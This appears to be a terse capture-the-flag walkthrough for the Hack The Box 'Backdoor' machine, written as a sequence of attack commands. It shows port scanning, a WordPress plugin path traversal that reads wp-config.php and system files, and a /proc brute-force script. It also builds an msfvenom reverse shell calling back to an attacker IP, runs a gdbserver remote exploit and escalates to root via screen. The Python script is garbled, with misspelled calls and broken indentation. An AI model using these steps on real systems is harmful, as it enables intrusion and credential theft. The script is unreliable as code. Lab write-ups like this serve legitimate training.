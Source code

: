 # Maquina-Backdoor-htb-
Backdoor htb 

nmap -p- --open -T5 -v -n 10.10.11.125 -oN allports
nmap -sCV -p22,80,1337 10.10.11.125 -oN analysis
whatweb 10.10.11.125
wfuzz -c --hc=404 -L -t 300 /home/kali/.zsh_history/fasttrack.txt -w http://backdoor.htb/ /FUZZ.php
searchsploit WordPres
wpscan --url http://backdoor.htb enumerate p,u -- plugins-detection aggressive 

searchsploit WordPress ebook
searchsploit -p 39575
cat /usr/share/exploitdb/exploits/php/webapps/39575.txt

http://backdoor.htb//wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
http://backdoor.htb//wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../etc/password

nano sploit.py
#!/bin/python3

import signal 
import requests
import sys

from pwn import * 
def def_handler(sig,frame):
print("\[!] Stoping the program...\n")
sys.exit(1)


signal.signal(signal.SIGINT,def_handler)

#gGlobal Variables

url = "http:backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc"
error_resp =123 
p1 = log.progres("bute force:")
p1.status("Starting Brute force attack")

for pid in range(0,3000):
	p1.status("Testing pid %d" % (pid))
	cont = (request.get(url + srt(pid) + "/cmdline")).content
	if (len (contect) > error_resp):
		print(f"[+] process (pid) found")
print(content)
print("------------------------------------------\n")

python3 sploit.py

searchsploit gdbserver
searchsploit -p 50539

msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.8 LPORT=9090 PrependFork=true -o rev.bin

sudo nc -lvnp 9090

python3 /usr/share/exploitdb/exploits/linux/remote/50539.py 10.10.11.125:1337 rev.bin


whoami
hostname -I
script dev null -c bash
stty raw -echo; fg
reset 
xterm
export TERM=term
export SHELL=bash
clear
bandera de usuario 
cat user.txt
7b92f75ea3c89f02030d537958da235d


find / -perm -u=s -type f 2>/dev/null

screen -x root/root
whoami
ls
659af1a89722fcd0c5fad6c67ea3fccf

